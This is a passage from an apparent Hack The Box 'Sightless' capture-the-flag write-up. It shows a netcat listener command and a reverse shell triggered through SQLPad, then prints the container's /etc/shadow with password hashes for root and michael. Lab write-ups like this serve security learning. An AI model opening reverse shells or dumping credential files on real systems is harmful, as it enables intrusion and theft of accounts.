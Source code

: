 4. Start a listener on your machine `nc -lvnp 1234` and then click the "Test Connection" button in **SQLPad** to trigger the reverse shell:
![](/assets/blogimages/Writeups/Hackthebox/Sightless/sightless9.png)

Upon gaining a shell, the target appears to be running inside a Docker container, as evidenced by a `.dockerenv` file:
![](/assets/blogimages/Writeups/Hackthebox/Sightless/sightless10.png)


From the container, `/etc/shadow` revealed hashed passwords for `root` and `michael`:
```
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```
